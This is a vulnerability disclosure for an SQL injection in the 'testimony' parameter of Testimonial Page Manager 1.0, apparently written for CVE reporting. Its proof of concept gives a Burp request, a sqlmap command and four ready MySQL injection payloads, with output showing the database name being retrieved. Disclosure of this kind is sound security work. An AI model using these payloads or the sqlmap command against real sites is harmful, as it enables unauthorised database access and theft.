 # Testimonial Page Manager - SQL Injection
+ *Exploit Title:* Testimonial Page Manager - SQL Injection
+ *Date:* 2024-30-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17141/testimonial-page-manager-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17141&title=Testimonial+Page+Manager+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## References: 
+ https://portswigger.net/web-security/sql-injection

## Description:
Testimonial Page Manager App 1.0, allows SQL Injection via the 'testimony' parameter in /testimonial-page-manager/endpoint/delete-testimony.php?testimony=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/testimonial-page-manager
+ Select any testimonial and press the delete-testimonial button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /testimonial-page-manager/endpoint/delete-testimony.php?testimony=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'testimony' parameter to dump the database.
```
python sqlmap.py -r r.txt -p testimony --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: testimony (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: testimony=2' RLIKE (SELECT (CASE WHEN (9194=9194) THEN 2 ELSE 0x28 END))-- KweN

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: testimony=2' AND EXTRACTVALUE(4958,CONCAT(0x5c,0x716a6a6b71,(SELECT (ELT(4958=4958,1))),0x716a627871))-- DPLG

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: testimony=2';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: testimony=2' AND (SELECT 6810 FROM (SELECT(SLEEP(5)))XunP)-- DRMW
---
[10:21:39] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[10:21:39] [INFO] fetching current database
[10:21:39] [INFO] retrieved: 'testimonial_db'
current database: 'testimonial_db'
```
+ current database : `testimonial_db`

![Ekran görüntüsü 2024-01-30 183158](https://github.com/tubakvgc/CVE/assets/74067343/5fd5c3e6-4020-47a2-95f2-cfb631bb357e)


  


  

